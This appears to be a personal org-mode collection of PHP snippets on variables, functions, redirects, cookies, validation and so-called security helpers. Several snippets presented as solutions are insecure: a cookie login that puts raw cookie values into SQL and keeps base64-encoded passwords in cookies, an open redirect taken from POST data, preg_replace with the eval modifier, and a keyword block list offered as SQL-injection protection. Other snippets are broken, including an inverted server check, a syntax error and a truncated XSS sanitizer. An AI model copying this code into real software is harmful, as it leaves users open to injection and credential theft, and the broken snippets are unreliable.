named variables. Say you are querying a database table that has fields
named title_1, title_2, etc. If you want to check if a title matches
any of those values, the easiest way is to loop through them like
this:

for ($i = 1; $i <= $n; $i++) {
    $t = "title_$i";
    if ($title == $$t) { /* match */ }
}

Of course, it would be more straightforward to store these values in
an array, but if you are maintaining old code that uses this technique
(and you can’t change it), variable variables are helpful.

The curly brace syntax is also necessary in resolving ambiguity about
array elements. The variable variable $$donkeys[12] could have two
meanings. The first is “take what’s in the 12th element of the
$donkeys array and use that as a variable name.” Write this as:
${$donkeys[12]}. The second is “use what’s in the scalar $donkeys as
an array name and look in the 12th element of that array.” Write this
as: ${$donkeys}[12].

You are not limited by two dollar signs. You can use three, or more,
but in practice it’s rare to see greater than two levels of
indirection.

** Using Static Variables
Declare the variable as static:
#+begin_src php
function track_times_called() {
    static $i = 0;
    $i++;
    return $i;
}
#+end_src
 
** Encapsulating Complex Data Types in a String

You want a string representation of an array or object for storage in
a file or database. This string should be easily reconstitutable into
the original array or object.  Solution

Use serialize() to encode variables and their values into a textual form:

#+begin_src php
$pantry = array('sugar' => '2 lbs.','butter' => '3 sticks');
$fp = fopen('/tmp/pantry','w') or die ("Can't open pantry");
fputs($fp,serialize($pantry));
fclose($fp);
#+end_src 

To recreate the variables, use unserialize():

#+begin_src php
$new_pantry = unserialize(file_get_contents('/tmp/pantry'));
#+end_src 

** Checking if a value is null or false (/best practice/)
*Use the === operator to check for null and boolean false values.*

PHP’s loose typing system offers many different ways of checking a variable’s
value. However it also presents a lot of problems. Using == to check if a value
is null or false can return false positives if the value is actually an empty
string or 0. isset() checks whether a variable has a value that is not null, but
doesn’t check against boolean false.

The is_null() function accurately checks if a value is null, and the is_bool()
function checks if it’s a boolean value (like false), but there’s an even better
option: the === operator. === checks if the values are identical, which is not
the same as equivalent in PHP’s loosely-typed world. It’s also slightly faster
than is_null() and is_bool(), and looks nicer than using a function for
comparison.
#+begin_src php
<?php
$x = 0;
$y = null;
 
// Is $x null?
if($x == null)
    print('Oops! $x is 0, not null!');
 
// Is $y null?
if(is_null($y))
    print('Great, but could be faster.');
 
if($y === null)
    print('Perfect!');
 
// Does the string abc contain the character a?
if(strpos('abc', 'a'))
    // GOTCHA!  strpos returns 0, indicating it wishes to return the position of the first character.
    // But PHP interpretes 0 as false, so we never reach this print statement!
    print('Found it!');
 
//Solution: use !== (the opposite of ===) to see if strpos() returns 0, or boolean false.
if(strpos('abc', 'a') !== false)
    print('Found it for real this time!');
?>
#+end_src

 - When testing the return value of a function that can return either 0 or boolean false, like strpos(), always use === and !==, or you’ll run in to problems.

** Escape characters in the PHP date function
*Escape characters in date with \*

As an example, there are some date formats that require a string constant T
between the date and time parts of the timestamp, but not the timezone offset as
well (the 'c' format character will do the T but also include the offset at the
end).

This is what I'd been doing in the past:
#+begin_src php
// don't do this yourself, use the second example below
$datetime = date('Y-m-d') . 'T' . date('H:i:s');
#+end_src 

By escaping the T with a \ you can do it with one call to the date function,
which is much more sensible and I don't know why I never checked the online
documentation in the past to see if it could be done more concisely:
#+begin_src php 
$datetime = date('Y-m-d\TH:i:s');
#+end_src 

* functions
** checking for a function's existence

#+begin_src php
<?php
if (function_exists("array_combine"))
{
    echo "Function exists";
}
else
{
    echo "Function does not exist - better write our own";
}
?>
#+end_src

** Creating Functions That Take a Variable Number of Arguments 
use =func_num_args()= and =func_get_arg()= functions.

#+begin_src php
// find the "average" of a group of numbers
function mean() {
    // initialize to avoid warnings
    $sum = 0;

    // the number of arguments passed to the function
    $size = func_num_args();

    // iterate through the arguments and add up the numbers
    for ($i = 0; $i < $size; $i++) {
        $sum += func_get_arg($i);
    }

    // divide by the amount of numbers
    $average = $sum / $size;

    // return average
    return $average;
}

$mean = mean(96, 93, 97); 
#+end_src

There is a third version of this function that uses func_num_args( ) to return
an array containing all the values passed to the function.

#+begin_src php
// find the "average" of a group of numbers
function mean() {
    // initialize to avoid warnings
    $sum = 0;

    // load the arguments into $numbers
    $numbers = func_get_args();

    // the number of elements in the array
    $size = count($numbers);

    // iterate through the array and add up the numbers
    for ($i = 0; $i < $size; $i++) {
        $sum += $numbers[$i];
    }

    // divide by the amount of numbers
    $average = $sum / $size;

    // return average
    return $average;
}

$mean = mean(96, 93, 97);
#+end_src

** returning anonymous functions
#+begin_src php
<?php
function setData($user, $pass, $host){
  return function() use ($user, $pass, $host){
    return array($user, $pass, $host);
  };
}

//set the data once
$container = setData('test', 'password', 'localhost');
//use the function without passing the data again (and it should be noted, you
//can't set the data again)
var_dump($container());
And the output:

array(3) {
  [0]=>
  string(4) "test"
  [1]=>
  string(8) "password"
  [2]=>
  string(9) "localhost"
}
#+end_src

** creating dynamic functions
Use the closure syntax to define a function and store it in a variable:

#+begin_src php 
$increment = 7;
$add = function($i, $j) use ($increment) { return $i + $j + $increment; };
$sum = $add(1, 2);
#+end_src 

$sum is now 10. If you are using a version of PHP earlier than 5.3.0, use create_function()
instead:

#+begin_src php
$increment = 7;
$add = create_function('$i,$j', 'return $i+$j + ' . $increment. ';');
$sum = $add(1, 2);
#+end_src 

A frequent use for anonymous functions is to create custom sorting functions for
usort() or array_walk() :
#+begin_src php 
$files = array('ziggy.txt', '10steps.doc', '11pants.org', "frank.mov");
// sort files in reverse natural order
usort($files, function($a, $b) { return strnatcmp($b, $a); });
// Now $files is
// array('ziggy.txt', 'frank.mov','11pants.org','10steps.doc')
#+end_src 

** Using Named Parameters
Problem
You want to specify your arguments to a function by name, instead of simply their
position in the function invocation.

Solution
PHP doesn’t have language-level named parameter support like some other languages
do. However, you can emulate it by having a function use one parameter and making
that parameter an associative array:
#+begin_src php 
function image($img) {
  $tag = '<img src="' . $img['src'] . '" ';
  $tag .= 'alt="' . (isset($img['alt']) ? $img['alt'] : '') .'"/>';
  return $tag;
}
// $image1 is '<img src="cow.png" alt="cows say moo"/>'
$image1 = image(array('src' => 'cow.png', 'alt' => 'cows say moo'));
// $image2 is '<img src="pig.jpeg" alt=""/>'
$image2 = image(array('src' => 'pig.jpeg'));
#+end_src 

** Returning Values by Reference
Problem
You want to return a value by reference, not by value. This allows you to avoid making
a duplicate copy of a variable.

Solution
The syntax for returning a variable by reference is similar to passing it by reference.
However, instead of placing an & before the parameter, place it before the name of the
function:
#+begin_src php 
function &array_find_value($needle, &$haystack) {
  foreach ($haystack as $key => $value) {
    if ($needle == $value) {
      return $haystack[$key];
    }
  }
}
#+end_src 

Also, you must use the =& assignment operator instead of plain = when invoking the
function:
#+begin_src php 
$band =& array_find_value('The Doors', $artists);
#+end_src 

* Misc
** get results from eval
use  ~return~ eg:

#+begin_src php
$res = eval('return 2 + 3;');      // 5
#+end_src

** redirecting
   
When redirecting to some scripts, the redirection also passes on the
entire QUERY_STRING the query string is stored in the PHP
environment variable $QUERY_STRING as a GET method parameter. In
addition, a session variable, referer, is registered in selected cases
so that in later processing the script can redirect to the original
calling page.

#+begin_src php
<?php
if ($_POST[location] == "") {
   header("Location: http://127.0.0.1/redirect_form.html");
   exit;
} else {
   header("Location: $_POST[location]");
   exit;
}
?>
#+end_src

** making the root path

#+begin_src php
define("ROOT",realpath(dirname(__FILE__)));
#+end_src

** HTTP refresh with echo

#+begin_src php 
echo "<meta http-equiv='refresh' content='0;url=http://domain.com?a=1&b=2'>";
//or even
header ("Location: url=http://domain.com?a=1&b=2");
#+end_src 

** user IP

#+begin_src php
if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
  $ip=$_SERVER['HTTP_CLIENT_IP'];}
elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
  $ip=$_SERVER['HTTP_X_FORWARDED_FOR'];} 
else {
  $ip=$_SERVER['REMOTE_ADDR'];
}
#+end_src

a more advanced version 

#+begin_src php 
function get_ip_address(){
    //taken from
    // http://stackoverflow.com/questions/1634782/what-is-the-most-accurate-way-to-retrieve-a-users-correct-ip-address-in-php
    foreach (array('HTTP_CLIENT_IP', 'HTTP_X_FORWARDED_FOR', 'HTTP_X_FORWARDED', 'HTTP_X_CLUSTER_CLIENT_IP', 'HTTP_FORWARDED_FOR', 'HTTP_FORWARDED', 'REMOTE_ADDR') as $key){
        if (array_key_exists($key, $_SERVER) === true){
            foreach (explode(',', $_SERVER[$key]) as $ip){
                $ip = trim($ip); // just to be safe

                if (filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE) !== false){
                    return $ip;
                }
            }
        }
    }
}
#+end_src 

** block ip address
   
#+begin_src php
<?php
 
$denyIP = array("IP Address 1", "IP Address 2", "IP Address 3");
 
IF (in_array ($_SERVER['REMOTE_ADDR'], $denyIP)) {
    header(”location: http://www.microsoft.com/”);
    EXIT();
} 
 
?>
#+end_src

** check server status 

#+begin_src php

<?php
 
// Domain name to check
$domainName = "http://www.farahoosh.ir" ;
 
function DomainCheck($domain_name){
    $start_time = microtime(TRUE);
    $openDomain = fsockopen ($domain_name, 80, $errno, $errstr, 10);
    $end_time  = microtime(TRUE);
    $server_status    = 0;
 
    if (!$openDomain){
        $server_status = -1;  
    }else{
        fclose($openDomain);
        $status = ($end_time - $start_time) * 1000;
        $server_status = floor($server_status);
    }
    return $server_status;
}
 
$server_status = DomainCheck($domain_name);
 
 
if ($server_status != -1) {
  print "Cannot reach the server." ;
}else{
  print "Server is responding properly." ;
}
?>

#+end_src

** check if a domain exists

#+begin_src php
<?PHP
 
FUNCTION url_exists($strURL) {
    $resURL = curl_init();
    curl_setopt($resURL, CURLOPT_URL, $strURL);
    curl_setopt($resURL, CURLOPT_BINARYTRANSFER, 1);
    curl_setopt($resURL, CURLOPT_HEADERFUNCTION, 'curlHeaderCallback');
    curl_setopt($resURL, CURLOPT_FAILONERROR, 1);
 
    curl_exec ($resURL);
 
    $intReturnCode = curl_getinfo($resURL, CURLINFO_HTTP_CODE);
    curl_close ($resURL);
 
    IF ($intReturnCode != 200 && $intReturnCode != 302 && $intReturnCode != 304) {
       RETURN FALSE;
    } ELSE {
        RETURN TRUE;
    }
}
 
//OR.................
 
FUNCTION is_valid_url($url)
{
    $url = PREG_REPLACE('~^https?://~i', NULL, $url);
    RETURN @CHECKDNSRR($url);
}
 
?>
#+end_src

** Check syntax of multiple PHP files all at once

#+begin_src shell
find ./ -type f -name \*.php -EXEC php -l {} \;
#+end_src 

** XSS Sanitizer Function

#+begin_src php
<?PHP
 
/* CLEANS AGAINST XSS
 * 
 * NOTE all credits goes to codeigniter.com
 * @param string $str - string to check
 * @param string $charset - character set (default ISO-8859-1)
 * @return string|bool $value sanitized string
 */
 
FUNCTION ft_xss($str, $charset = 'ISO-8859-1') {
    /*
    * Remove Null Characters
    *
    * This prevents sandwiching null characters
    * between ASCII characters, like Java\0script.
    *
    */
    $str = PREG_REPLACE('/\0+/', '', $str);
    $str = PREG_REPLACE('/(\\\\0)+/', '', $str);
 
    /*
    * Validate standard character entities
    *
    * Add a semicolon if missing.  We do this to enable
    * the conversion of entities to ASCII later.
    *
    */
    $str = PREG_REPLACE('#(&\#*\w+)[\x00-\x20]+;#u',"\\1;",$str);
 
    /*
    * Validate UTF16 two byte encoding (x00)
    *
    * Just as above, adds a semicolon if missing.
    *
    */
    $str = PREG_REPLACE('#(&\#x*)([0-9A-F]+);*#iu',"\\1\\2;",$str);
 
    /*
    * URL Decode
    *
    * Just in case stuff like this is submitted:
    *
    * <a href="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">Google</a>
    *
    * Note: Normally urldecode() would be easier but it removes plus signs
    *
    */     
    $str = PREG_REPLACE("/%u0([a-z0-9]{3})/i", "
#+end_src
    
** Anti-SQL Injection Function

#+begin_src php
<?PHP
    FUNCTION anti_injection( $user, $pass ) {
           // We'll first get rid of any special characters using a simple regex statement.
           // After that, we'll get rid of any SQL command words using a string replacment.
            $banlist = ARRAY (
                    "insert", "select", "update", "delete", "distinct", "having", "truncate", "replace",
                    "handler", "like", " as ", "or ", "procedure", "limit", "order by", "group by", "asc", "desc"
            );
            // ---------------------------------------------
            IF ( EREGI ( "[a-zA-Z0-9]+", $user ) ) {
                    $user = TRIM ( STR_REPLACE ( $banlist, '', STRTOLOWER ( $user ) ) );
            } ELSE {
                    $user = NULL;
            }
            // ---------------------------------------------
            // Now to make sure the given password is an alphanumerical string
            // devoid of any special characters. strtolower() is being used
            // because unfortunately, str_ireplace() only works with PHP5.
            IF ( EREGI ( "[a-zA-Z0-9]+", $pass ) ) {
                    $pass = TRIM ( STR_REPLACE ( $banlist, '', STRTOLOWER ( $pass ) ) );
            } ELSE {
                    $pass = NULL;
            }
            // ---------------------------------------------
            // Now to make an array so we can dump these variables into the SQL query.
            // If either user or pass is NULL (because of inclusion of illegal characters),
            // the whole script will stop dead in its tracks.
            $array = ARRAY ( 'user' => $user, 'pass' => $pass );
            // ---------------------------------------------
            IF ( IN_ARRAY ( NULL, $array ) ) {
                    DIE ( 'Invalid use of login and/or password. Please use a normal method.' );
            } ELSE {
                    RETURN $array;
            }
    }
?>
#+end_src

** Anti-flood protection
#+begin_src php
<?PHP
 
IF (!ISSET($_SESSION)) {
    SESSION_START();
}
// anti flood protection
IF($_SESSION['last_session_request'] > TIME() - 2){
    // users will be redirected to this page if it makes requests faster than 2 seconds
    HEADER("location: /flood.html");
    EXIT;
}
$_SESSION['last_session_request'] = TIME();
 
?>
#+end_src

** Auto Link Maker
#+begin_src php
<?PHP
 
FUNCTION change_string($str){
     $str = TRIM($str);
     $str = HTMLSPECIALCHARS($str);
     $str = PREG_REPLACE('#(.*)\@(.*)\.(.*)#','<a href="mailto:\\1@\\2.\\3">Send email</a>',$str);
     $str = PREG_REPLACE('=([^\s]*)(www.)([^\s]*)=','<a href="http://\\2\\3" target=\'_new\'>\\2\\3</a>',$str);
     RETURN $str;
   }
 
?>
#+end_src

** Secure Auto-Link Maker
#+begin_src php
<?PHP
 
FUNCTION convert_links($str) {
       $replace = <<<EOPHP
'<a href="'.htmlentities('\\1').htmlentities('\\2').//remove line break
'">'.htmlentities('\\1').htmlentities('\\2').'</a>'
EOPHP;
   $str = PREG_REPLACE('#(http://)([^\s]*)#e', $replace, $str);
   RETURN $str;
}
 
?>
#+end_src

** Ban Proxy Servers

#+begin_src php
<?PHP
 
IF(ISSET($_SERVER['HTTP_X_FORWARDED_FOR']) || ($_SERVER['HTTP_USER_AGENT']=='') || ($_SERVER['HTTP_VIA']!='')){
        DIE("Proxy servers not allowed.");
}
 
$proxy_headers = ARRAY(   
     'HTTP_VIA',   
     'HTTP_X_FORWARDED_FOR',   
     'HTTP_FORWARDED_FOR',   
     'HTTP_X_FORWARDED',   
     'HTTP_FORWARDED',   
     'HTTP_CLIENT_IP',   
     'HTTP_FORWARDED_FOR_IP',   
     'VIA',   
     'X_FORWARDED_FOR',   
     'FORWARDED_FOR',   
     'X_FORWARDED',   
     'FORWARDED',   
     'CLIENT_IP',   
     'FORWARDED_FOR_IP',   
     'HTTP_PROXY_CONNECTION'   
        );
FOREACH($proxy_headers AS $x){
     IF (ISSET($_SERVER[$x])) DIE("You are using a proxy.");
        EXIT;
}
 
?> 
#+end_src

** Buffered Download code
   
#+begin_src php
 <?php
 
//start buffered download
    WHILE(!feof($fp)){
 
        $total     = filesize($file);
        $sent      = 0;
        $blocksize = (2 << 20); //2M chunks
        $handle    = fopen($file, "r");
 
        // Now we need to loop through the file 
        // AND echo out chunks of file data
        WHILE($sent < $total){
            echo fread($handle, $blocksize);
            $sent += $blocksize;
        }
 
        EXIT(0);
        @flush();
        @ob_flush();
    }
 
?>  
#+end_src

** Build Date Select Boxes
#+begin_src php
<?PHP
 
FUNCTION buildDate($name, $m, $d, $y) {
        $date = DATE("m-d-Y",STRTOTIME("now"));
        $date_array = EXPLODE("-",$date);
        $now_m = "";
        $now_d = "";
        $now_y = "";
        $month = '<select class="small" name="'.$name.'_month">';
        $month .= '<option value="" selected disabled>mm</option>';
        FOR ($i=1;$i<=12;$i++) {
                IF ( $m != "" ) {
                        IF ( $m == $i ) {
                                $now_m = "selected";
                        }
                }ELSEIF ( $m == "0" ) {
                        $now_m = "";
                }ELSE{
                        IF ( $date_array[0] == $i ) {
                                $now_m = "selected";
                        }
                }
                $month .= '<option value="'.$i.'" '.$now_m.'>'.$i.'</option>';
                $now_m = "";
        }//END month for loop
        $month .= '</select>';
        $day = '<select class="small" name="'.$name.'_day">';
        $day .= '<option value="" selected disabled>dd</option>';
        FOR ($i=1;$i<=31;$i++) {
                IF ( $d != "" ) {
                        IF ( $d == $i ) {
                                $now_d = "selected";
                        }
                }ELSEIF ( $d == "0" ) {
                        $now_d = "";
                }ELSEIF ( $d == $i ) {
                        $now_d = "selected";
                }ELSE{
                        IF ( $date_array[1] == $i ) {
                                $now_d = "selected";
                        }
                }
                $day .= '<option value="'.$i.'" '.$now_d.'>'.$i.'</option>';
                $now_d = "";
        }//END day for loop
        $day .= '</select>';
        $year = '<select class="small" name="'.$name.'_year">';
        $year .= '<option value="" selected disabled>yyyy</option>';
        FOR ($i=GMDATE("Y"); $i <=SUBSTR(get330Date(),0,4); $i++) {
                IF ( $y != "" ) {
                        IF ( $y == $i ) {
                                $now_y = "selected";
                        }
                }ELSEIF ( $y == "0" ) {
                        $now_y = "";
                }ELSEIF ( $y == $i ) {
                        $now_y = "selected";
                }ELSE{
                        IF ( $date_array[2] == $i ) {
                                $now_y = "selected";
                        }
                }
                $year .= '<option value="'.$i.'" '.$now_y.'>'.$i.'</option>';
                $now_y = "";
        }//END year for loop
        $year .= '</select>';
        //-------------------------------------------
        ECHO $month." ".$day." ".$year;
}//END buildDate function
// ------------------------------------
FUNCTION get330Date() {
        RETURN DATE("Y-m-d", MKTIME(0, 0, 0, SUBSTR(GMDATE("Y m d"),5,2), 
        SUBSTR(GMDATE("Y m d"),8,2) + 330, 
        SUBSTR(GMDATE("Y m d"),0,4)))."<br />";
}
 
?>
#+end_src

** Calculate Distance
#+begin_src php
 <?PHP
 
FUNCTION distance($lat1, $lng1, $lat2, $lng2, $miles = TRUE)
{
     $pi80 = M_PI / 180;
     $lat1 *= $pi80;
     $lng1 *= $pi80;
     $lat2 *= $pi80;
     $lng2 *= $pi80;
 
     $r = 6372.797; // mean radius of Earth in km
     $dlat = $lat2 - $lat1;
     $dlng = $lng2 - $lng1;
     $a = SIN($dlat / 2) * SIN($dlat / 2) + COS($lat1) * COS($lat2) * SIN($dlng / 2) * SIN($dlng / 2);
     $c = 2 * ATAN2(SQRT($a), SQRT(1 - $a));
     $km = $r * $c;
 
     RETURN ($miles ? ($km * 0.621371192) : $km);
}
 
?> 
#+end_src

** captcha GD Image Library
#+begin_src php
<?PHP
// start the session to store the variable
SESSION_START();
 
// generate the random code
$chars = 'abcdefghkmnprstuvwxyzABCDEFGHJKLMNPQRSTUV2345689';
$length = 6;
$code = '';
FOR($i = 0; $i < $length; $i++){
   $pos = MT_RAND(0, STRLEN($chars)-1);
   $code .= SUBSTR($chars, $pos, 1);
}
 
// store the code to compare later
$_SESSION['captcha'] = $code;
 
// set up the image
// size
$width = 120;
$height = 30;
// colors
$r = MT_RAND(160, 255);
$g = MT_RAND(160, 255);
$b = MT_RAND(160, 255);
// create handle for new image
$image = imagecreate($width, $height);
// create color handles
$background = imagecolorallocate($image, $r, $g, $b);
$text = imagecolorallocate($image, $r-128, $g-128, $b-128);
// fill the background
imagefill($image, 0, 0, $background);
 
// add characters in random orientation
FOR($i = 1; $i <= $length; $i++){
   $counter = MT_RAND(0, 1);
   IF ($counter == 0){
      $angle = MT_RAND(0, 30);
   }
   IF ($counter == 1){
      $angle = MT_RAND(330, 360);
   }
   // "arial.ttf" can be replaced by any TTF font file stored in the same directory as the script
   imagettftext($image, MT_RAND(14, 18), $angle, ($i * 18)-8, MT_RAND(20, 25), $text, "arial.ttf", SUBSTR($code, ($i - 1), 1));
}
 
// draw a line through the text
imageline($image, 0, MT_RAND(5, $height-5), $width, MT_RAND(5, $height-5), $text);
 
// blur the image
$gaussian = ARRAY(ARRAY(1.0, 2.0, 1.0), ARRAY(2.0, 4.0, 2.0), ARRAY(1.0, 2.0, 1.0));
imageconvolution($image, $gaussian, 16, 0);
 
// add a border for looks
imagerectangle($image, 0, 0, $width - 1, $height - 1, $text);
 
// prevent caching
HEADER('Expires: Tue, 08 Oct 1991 00:00:00 GMT');
HEADER('Cache-Control: no-cache, must-revalidate');
 
// output the image
HEADER("Content-Type: image/gif");
imagegif($image);
imagedestroy($image); 
?>
 
 
 
Sample Page:
 
<?PHP SESSION_START(); ?>
<html>
<head>
<title>CATCHA Test</title>
</head>
<body>
<?PHP
IF(ISSET($_POST['captcha'])){
   IF(STRTOLOWER($_POST['captcha']) == STRTOLOWER($_SESSION['captcha'])){
      ECHO '<div>Success</div>';
   }
   ELSE{
      ECHO '<div>Incorrect</div>';
   }
}
?>
<img src="captcha.php" alt="CAPTCHA" width="120" height="30">
<form method="post">
  <input type="text" name="captcha" id="captcha">
  <input type="submit" name="submit" id="submit" value="Test">
</form>
</body>
</html>
#+end_src

** Convert HTML to plain text
#+begin_src php
<?PHP
 
// $document should contain an HTML document.
// This will remove HTML tags, javascript sections
// and white space. It will also convert some
// common HTML entities to their text equivalent.
 
$search = ARRAY ("'<script[^>]*?>.*?</script>'si",  // Strip out javascript
                 "'<[/!]*?[^<>]*?>'si",          // Strip out HTML tags
                 "'([rn])[s]+'",                // Strip out white space
                 "'&(quot|#34);'i",                // Replace HTML entities
                 "'&(amp|#38);'i",
                 "'&(lt|#60);'i",
                 "'&(gt|#62);'i",
                 "'&(nbsp|#160);'i",
                 "'&(iexcl|#161);'i",
                 "'&(cent|#162);'i",
                 "'&(pound|#163);'i",
                 "'&(copy|#169);'i",
                 "'&#(d+);'e");                    // evaluate as php
 
$replace = ARRAY ("",
                 "",
                 "\1",
                 "\"",
                 "&",
                 "<",
                 ">",
                 " ",
                 CHR(161),
                 CHR(162),
                 CHR(163),
                 CHR(169),
                 "chr(\1)");
 
$text = PREG_REPLACE($search, $replace, $document);
 
?> 
#+end_src

** Cookie Login Code
#+begin_src php
 <?PHP
 
 IF( (ISSET($_COOKIE['USERNAME_COOKIE'])) && (ISSET($_COOKIE['PASSWORD_COOKIE'])) ) {
        $qry=MYSQL_QUERY("select * from loginTblName where username='".$_COOKIE['USERNAME_COOKIE']."' and password='".$_COOKIE['PASSWORD_COOKIE']."'") or DIE(MYSQL_ERROR());
        IF(MYSQL_NUM_ROWS($qry)!=0){
                $res=MYSQL_FETCH_ARRAY($qry);
                $_SESSION["ad_id"]        =    $res["ad_id"];
                $_SESSION["name"]        =    $res["fname"]." ".$res["sname"];
                $prevkeys                =   $res["priv"];
                $_SESSION["tempSessId"]    =    SESSION_ID();
                $keys                    = "";
                $prevkeys                = EXPLODE("#",$prevkeys);
                HEADER("location:filename.php");
            }
            ELSE{
                $err="Invalid Username or Password.";
            }
    }
 
IF(ISSET($_POST["submitLogin"])){
        $qry=MYSQL_QUERY("select * from loginTblName where username='".ADDSLASHES($_POST["UserName"])."' and password='".BASE64_ENCODE($_POST["password"])."'") or DIE(MYSQL_ERROR());
        IF($_POST["signedin"]=='1'){
            $_POST['password']=BASE64_ENCODE($_POST['password']);
            $hour = TIME() + 60*60*24*30; 
            SETCOOKIE(USERNAME_COOKIE, $_POST['UserName'], $hour);
            SETCOOKIE(PASSWORD_COOKIE, $_POST['password'], $hour);    
            //print_r($_COOKIE);
        }
        IF(MYSQL_NUM_ROWS($qry)!=0){
            $res=MYSQL_FETCH_ARRAY($qry);
            $_SESSION["ad_id"]        =    $res["ad_id"];
            $_SESSION["name"]        =    $res["fname"]." ".$res["sname"];
            $prevkeys                =   $res["priv"];
            $_SESSION["tempSessId"]    =    SESSION_ID();
            HEADER("location:filename.php");
        }
        ELSE{
            $err="Invalid Username or Password.";
        }
    }
 
?>
 
<form method="post">
<table border="0" cellpadding="0" cellspacing="0">
                    <tr>
                        <td><label for="username">Username:</label></td>
                        <td><input name="UserName" id="UserName" valign="top" class="StandardForm" tabindex="1" size="30" maxsize="100"></td>
                        <td valign="top"></td>
                    </tr>
                    <tr>
                        <td><label for="password">Password:</label></td>
                        <td><input name="password" type="password" class="StandardForm" tabindex="2" size="30" maxsize="100" id="password"></td>
                        <td></div></td>
                    </tr>
                </table>
 
<label for="signedin" class="small">Keep me signed in</label><input type="checkbox" id="signedin" value="1" name="signedin" class="checked" />
            <div id="divLogin"><input type="Submit" tabindex="4" name="submitLogin" id="submitLogin" value="LOGIN" class="submit"></div>
 
</form>   
#+end_src

** Set/Get/Remove Cookies
#+begin_src php
 /* Add Cookies */ 
<?PHP 
SETCOOKIE ("TestCookie", $value); 
SETCOOKIE ("TestCookie", $value,TIME() 3600); /* expire in 1 hour */ 
SETCOOKIE ("TestCookie", $value,TIME() 3600, "/~rasmus/", ".utoronto.ca", 1); 
?> 
 
/* Remove Cookies */ 
<?PHP 
// set the expiration date to one hour ago 
SETCOOKIE ("TestCookie", "", TIME() - 3600); 
SETCOOKIE ("TestCookie", "", TIME() - 3600, "/~rasmus/", ".utoronto.ca", 1); 
?> 
 
/* Use Cookies */ 
<?PHP 
ECHO $TestCookie; 
ECHO $_COOKIE["TestCookie"]; 
?> 
 
/* Set cookie array */ 
<?PHP 
SETCOOKIE ("cookie[three]", "cookiethree"); 
SETCOOKIE ("cookie[two]", "cookietwo"); 
SETCOOKIE ("cookie[one]", "cookieone"); 
     IF (ISSET ($cookie)) { 
          WHILE (LIST ($name, $value) = EACH ($cookie)) { 
          ECHO "$name == $value<br>\n"; 
     } 
} 
?>  
#+end_src
  
** Validate email address #1
#+begin_src php
<?PHP
 
$email = "someone@example.com";
IF(EREGI("^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9-]+(\.[a-z0-9-]+)*(\.[a-z]{2,4})$", $email)) {
  ECHO "Valid email address.";
}ELSE{
  ECHO "Invalid email address.";
}
 
?>
#+end_src

** Validate email address #2
#+begin_src php
<?PHP
 
FUNCTION checkEmail($email) {
     IF (EREG("^[a-zA-Z0-9][a-zA-Z0-9_\.\-]*[@][a-zA-Z0-9\.\-]*[\.][a-zA-Z]{2,4}$", $email)) {
          RETURN TRUE;
     } ELSE {
          RETURN FALSE;
     }
}
 
?>
#+end_src

** Validate email address #3
#+begin_src php
<?PHP
 
FUNCTION isValidEmail( $email = NULL ){
     RETURN PREG_MATCH( "/^
     [\d\w\/+!=#|$?%{^&}*`'~-]
     [\d\w\/\.+!=#|$?%{^&}*`'~-]*@
     [A-Z0-9]
     [A-Z0-9.-]{1,61}
     [A-Z0-9]\.
     [A-Z]{2,6}$/ix", $email );
}
 
?>
#+end_src

** EVAL a file
#+begin_src php
<?PHP
 
$str = compile('file_to_process');
$str = do_more_things_with($str);

ECHO $str;
 
FUNCTION compile($file) {
    OB_START();
    REQUIRE $file;
    RETURN OB_GET_CLEAN();
}
 
?>  
#+end_src

** Fake email addresses
#+begin_src php
<?PHP
 
// maximum emails to generate on each page
$maxemails = 50;
 
$tld = ARRAY(".com",".com",".biz",".info",".com.au",".co.uk",".sg",".cn",".fr",".de",".org",".gov",".net",".no");
SLEEP(2);
 
SRAND ((double) MICROTIME() * 1000000);
FOR ($i = 1; $i <= $maxemails; $i++) {
        $nextmail = "";
        $rnd = RAND(5,12);
        FOR ($a = 1; $a <= $rnd; $a++) {
                $tmp = RAND(97, 122);
                $nextmail .= CHR($tmp);
        }
        $fornavn = $nextmail;
        $nextmail .= "@";
        $rnd = RAND(7,12);
        FOR ($a = 1; $a <= $rnd; $a++) {
                $tmp = RAND(97, 122);
                $nextmail .= CHR($tmp);
        }
        $rnd = RAND(1,COUNT($tld));
        $nextmail .= $tld[$rnd];
        ECHO "<a href=\"mailto:$nextmail\">".$nextmail."</a><br>\n";
}
 
?>
#+end_src

** Filter Empty Array Elements

#+begin_src php
<?PHP
 
// filter empty elements
$some_array = PREG_GREP('#\S#', ARRAY_MAP('trim', $some_array));
 
?>
#+end_src

** Find IP from Hostname

#+begin_src php
<?PHP
 
$ip = RTRIM(`/usr/bin/dig $host A +short | /usr/bin/tail -1`);
 
?>
#+end_src

** Make grayscaled image

#+begin_src php
<?PHP
 
HEADER("content-type: image/jpeg");
$image = imagecreatefromjpeg("image.jpg");
imagefilter($image,IMG_FILTER_GRAYSCALE);
imagejpeg($image);
imagedestroy($image);
 
?>
#+end_src

** Auto Link Maker #2

#+begin_src php
<?PHP
 
FUNCTION linkScan($string1)
     {
     $pattern1 = "/(?<![\\/\\d\\w])(http:\\/\\/)?([\\w\\d\\-]+)
             ((\\.([\\w\\d\\-])+){2,})([\\/\\?\\w\\d\\.\\-_&=+%]*)?/i";
     $replace1 = "<a href=\\"http://$2$3$6\\" target=\\"popup\\">$0</a>";
     $string2 = PREG_REPLACE($pattern1,$replace1,$string1);
     $pattern2 = "/[\\d\\w\\.\\-_]+@[\\d\\w\\-_\\.]+?
             \\.[\\w]{2,3}(\\.[\\w]{2,3})?/i";
     $replace2 = "<a href=\\"mailto:$0\\">$0</a>";
     $string3 = PREG_REPLACE($pattern2,$replace2,$string2);     
     RETURN $string3;     
     }
 
?>
#+end_src

** get link text

#+begin_src php

<?PHP
 
FUNCTION getUrlLinkText($url){
 
    PREG_MATCH('/\>(.*)<\/a>/', $url, $matches);
    /*** return the match ***/
    RETURN $matches[1];
}
 
/* example usage 
 
$url = '<a href="http://www.domain.com" class="something" id="link_id">Url Text Link Here</a>';
echo getUrlLinkText($url);
 
*/
 
?>
#+end_src

** Get text between tags

#+begin_src php
<?PHP
 
$str = " 
Line 1: This is a string 
Line 2: <pre>This is something within a pre-formatted section 
spanning 2+ lines. 
The end.</pre> Should not be included. 
Line 3: End of test string."; 
 
PREG_MATCH("|<pre>(.+)</pre>|si", $str, $m); 
ECHO NL2BR($m[1]); 
 
